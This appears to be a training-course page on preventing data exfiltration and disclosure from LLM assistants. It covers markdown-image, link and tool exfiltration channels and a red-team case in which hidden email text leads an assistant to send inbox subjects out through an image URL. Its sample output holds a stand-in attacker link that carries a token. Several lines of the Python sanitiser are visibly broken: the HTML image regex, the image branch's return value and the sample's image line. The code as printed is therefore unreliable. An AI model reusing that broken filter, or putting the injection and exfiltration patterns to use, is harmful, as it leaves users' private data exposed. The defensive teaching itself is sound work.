

# Data Exfiltration and Sensitive Information Disclosure

> **Level:** Advanced · **Time:** ~45 min · **Exam relevance:** CCAR-P D5 (5.1, 5.2, 5.4), CCAO-F D6 (6.2)

## In plain English

Sensitive information disclosure is the model revealing something it should not: another customer's data, an
internal document, a secret in its prompt, or personal data in a log. Exfiltration is the deliberate version: an
attacker arranges for data in the model's context to be carried out to a place they control.

The model rarely "sends" data on its own. Data leaves through channels your application provides: the text shown to a
user, an image your chat UI loads, a link the user clicks, a tool that makes a web request, a log line that is
shipped to a third party. Close or guard the channels and most exfiltration routes disappear.

## Why it matters

- OWASP lists Sensitive Information Disclosure as LLM02:2025 and System Prompt Leakage as LLM07:2025.
- Combined with [indirect prompt injection](03-indirect-prompt-injection.md), exfiltration is the most common
  real-world pattern against assistants that read email, documents or web pages: the planted text tells the model to
  encode private data into a URL, and the application fetches that URL.
- Disclosure incidents carry regulatory consequences (GDPR, HIPAA, sector rules), which ties this page to CCAR-P-5.4
  and CCAO-F-6.2.

## How it works

### Disclosure sources

| Source | Example | Primary control |
|---|---|---|
| Over-broad context | RAG retrieves documents the user is not allowed to read | Enforce document-level access control at retrieval time, using the user's identity |
| Cross-tenant mixing | Shared cache, memory or index across customers | Per-tenant indexes, memory stores and cache keys |
| Secrets in prompts | API keys or internal URLs in the system prompt | Never put secrets in context; see [secrets management](10-secrets-management.md) |
| Training-style memorisation | Model reproduces data it saw elsewhere | Not controllable by you; rely on provider commitments and output filtering for your own identifiers |
| Logs and traces | Full prompts and responses copied to an observability vendor | Metadata-only logging by default; redaction; retention limits |

### Exfiltration channels



1. **Markdown-image exfiltration.** If your UI renders markdown and the model outputs an image whose URL contains
   data (for example a query parameter carrying a summary of the user's inbox), the browser fetches that URL
   automatically. No click is needed. This is the most dangerous channel because it is invisible to the user.
2. **Link exfiltration.** The same idea, but the user must click. Social engineering ("click here to verify") makes
   this practical.
3. **Tool-based exfiltration.** Any tool that can reach the network or write somewhere visible to others can carry
   data: web fetch with an attacker URL, sending email, creating a public gist, posting to a webhook, or even a DNS
   lookup.
4. **Side channels in shared artefacts.** The agent writes private data into a ticket, document or commit that the
   attacker can read.

### Controls by channel

| Channel | Control | Implementation notes |
|---|---|---|
| Markdown images | Do not auto-render external images, or only from an allow-list of your own domains, or through a proxy that strips query strings | Enforce in the renderer; add a Content Security Policy `img-src` directive as a second layer |
| Links | Allow-list domains; show the full destination; strip query strings from unknown domains; disable auto-linking of bare URLs | Treat link rendering as a security feature, not a style choice |
| Network tools | Egress allow-lists; no free-form URLs; separate read tools from send tools; confirmation for any external send | For Claude server tools, use `allowed_domains`; web fetch only fetches URLs already present in the conversation |
| Shared artefacts | Write tools scoped to the user's own spaces; review before publishing | Combine with [human oversight](13-human-oversight.md) |
| Model output text | Output filters for known identifiers (account numbers, secrets patterns) | Useful as a backstop; never the only control |

### System prompt leakage

Assume your system prompt can be extracted. OWASP's LLM07 entry makes the point that the real risk is what the
prompt contains (credentials, internal rules that reveal how to bypass controls, internal hostnames), not the
disclosure itself. Keep the system prompt free of secrets and keep security enforcement out of it.

## Example

This renderer-side sanitiser removes external images and rewrites links that are not on an allow-list. It uses only
the standard library so it can run in any backend that converts model output to HTML.

```python
"""sanitize_markdown.py - neutralise markdown image and link exfiltration channels."""
import re
from urllib.parse import urlsplit, urlunsplit

ALLOWED_IMAGE_HOSTS = {"assets.contoso-health.example"}
ALLOWED_LINK_HOSTS = {"contoso-health.example", "intranet.contoso-health.example"}

IMG = re.compile(r"!\[([^\]]*)\]\(([^)\s]+)(?:\s+\"[^\"]*\")?\)")
LINK = re.compile(r"(?<!!)\[([^\]]+)\]\(([^)\s]+)(?:\s+\"[^\"]*\")?\)")
BARE_URL = re.compile(r"(?<![\(\[])\bhttps?://[^\s)>\]]+")
HTML_IMG = re.compile(r"]*>", re.IGNORECASE)


def _host(url: str) -> str:
    try:
        return (urlsplit(url).hostname or "").lower()
    except ValueError:
        return ""


def _strip_query(url: str) -> str:
    parts = urlsplit(url)
    return urlunsplit((parts.scheme, parts.netloc, parts.path, "", ""))


def sanitize(markdown: str) -> tuple[str, list[str]]:
    findings: list[str] = []

    def img(m: re.Match) -> str:
        alt, url = m.group(1), m.group(2)
        if _host(url) in ALLOWED_IMAGE_HOSTS:
            return f"})"
        findings.append(f"removed external image: {_host(url)}")
        return f"[image removed: {alt or 'external image'}]"

    def link(m: re.Match) -> str:
        text, url = m.group(1), m.group(2)
        host = _host(url)
        if host in ALLOWED_LINK_HOSTS:
            return f"[{text}]({url})"
        findings.append(f"neutralised link to {host or 'unknown host'}")
        return f"{text} (external link removed: {host or 'unknown'})"

    out = HTML_IMG.sub(lambda m: (findings.append("removed raw  tag") or "[image removed]"), markdown)
    out = IMG.sub(img, out)
    out = LINK.sub(link, out)
    out = BARE_URL.sub(lambda m: m.group(0) if _host(m.group(0)) in ALLOWED_LINK_HOSTS
                       else (findings.append(f"neutralised bare URL {_host(m.group(0))}") or "[link removed]"),
                       out)
    return out, findings


if __name__ == "__main__":
    # Illustrative model output that a planted instruction might produce in a test harness.
    sample = ("Here is your summary.\n"
              "\n"
              "See [the policy](https://intranet.contoso-health.example/leave) or "
              "[verify here](https://login.attacker.test/?token=abc).")
    clean, notes = sanitize(sample)
    print(clean)
    print(notes)
```

Pair the sanitiser with a browser-side Content Security Policy such as `img-src 'self' https://assets.contoso-health.example`
so a missed pattern still cannot load. Log every finding: a sudden spike in removed images is a strong signal of an
active injection campaign.

For tool-based exfiltration, enforce destinations in the tool executor:

```python
from urllib.parse import urlsplit

EGRESS_ALLOW = {"api.partner-carrier.example", "status.acme-logistics.example"}

def guarded_fetch(url: str, fetch) -> str:
    host = (urlsplit(url).hostname or "").lower()
    if urlsplit(url).scheme != "https" or host not in EGRESS_ALLOW:
        raise PermissionError(f"egress to {host!r} is not allowed")
    return fetch(url)
```

## Enterprise use case

*Contoso Health* launches an assistant that summarises clinicians' inboxes. A red-team exercise sends a test email
containing hidden text asking the assistant to append an image whose URL contains the subjects of the clinician's
last ten emails. In the pilot build, the chat UI rendered the image and the test server received the data.

Fixes, in order of impact:

1. The renderer stops loading any external images and neutralises non-allow-listed links (the sanitiser above).
2. A Content Security Policy blocks third-party image loads as defence in depth.
3. The email-reading workflow moves to a read-only agent with no network tools.
4. Retrieval for the assistant uses the clinician's own delegated token, so it can never surface another
   clinician's mail.
5. Observability is switched to metadata-only logging, so patient details do not land in the tracing backend.

Lab 15 reproduces this scenario offline.

## Common mistakes

- Rendering model output with a full-featured markdown library and default settings.
- Allow-listing by substring (`"contoso" in url`), which `contoso.attacker.test` passes. Compare parsed hostnames.
- Retrieving documents with a service account and asking the model to "only use documents the user may see".
- Logging full prompts and responses to a third-party tool without a data-processing review.
- Putting customer identifiers in trace attributes such as conversation IDs that are exported in every mode.

## Security considerations

- Data minimisation is the strongest control: if a field is not needed for the task, do not put it in context.
- Retention matters. Check the data-retention arrangement for each API feature you use; some features (for example
  stateful ones) store data by design (see [enterprise deployment controls](14-enterprise-deployment-controls.md)).
- If you use OpenTelemetry export, Anthropic's SDK and API tracing default to a metadata-only content mode; turning
  on full content sends prompts and responses to your tracing backend under that backend's retention rules.
- Treat cached prompts as data at rest in your threat model even though caching is managed by the provider: design
  cache prefixes so they do not mix tenants.

## Troubleshooting

| Symptom | Likely cause | Fix |
|---|---|---|
| Users report broken images in answers | Sanitiser removing legitimate images | Host required images on an allow-listed domain |
| Data still appears at test collector | Raw HTML or reference-style markdown links not handled | Render through an HTML sanitiser with an explicit allow-list; add CSP |
| Model refuses to summarise emails with links | Over-strict system prompt | Let the model summarise; enforce link policy in the renderer |
| PII appears in traces | Full content mode enabled or IDs contain PII | Revert to metadata-only; use opaque IDs |

## Check your understanding

1. Why is markdown-image exfiltration more dangerous than link exfiltration?
2. Where should document-level access control be enforced in a RAG system?
3. Your system prompt contains an internal API key "that the model is told never to reveal". What is wrong with this?
4. Name two controls for tool-based exfiltration.

<details>
<summary>Answers</summary>

1. The browser loads images automatically, so data leaves without any user action or awareness.
2. At retrieval time, in code, using the requesting user's identity and the document's ACL, before content reaches the
   model.
3. The prompt can be extracted (OWASP LLM07), and the model may be manipulated into revealing it. Secrets never
   belong in context; the tool should obtain credentials outside the model.
4. Egress allow-lists enforced in the tool executor; separating read and send tools; confirmation gates for any
   external send; using `allowed_domains` on web tools.

</details>

## Further reading

- OWASP: [Top 10 for LLM Applications 2025](https://genai.owasp.org/llm-top-10/) (LLM02, LLM07)
- Anthropic: [Mitigate jailbreaks and prompt injections](https://platform.claude.com/docs/en/test-and-evaluate/strengthen-guardrails/mitigate-jailbreaks)
- Anthropic: [API and data retention](https://platform.claude.com/docs/en/manage-claude/api-and-data-retention)
- MDN: [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
- In this repository: [Lab 15: sensitive data protection](../19-hands-on-labs/lab-15-sensitive-data-protection/README.md),
  [data governance and compliance](../13-enterprise-ai-architecture/05-data-governance-and-compliance.md)

<!-- page-nav:start -->
---

[← Previous: Indirect Prompt Injection](03-indirect-prompt-injection.md) · [Module overview](README.md) · [Next: Tool Misuse and Excessive Agency →](05-tool-misuse-and-excessive-agency.md)
<!-- page-nav:end -->
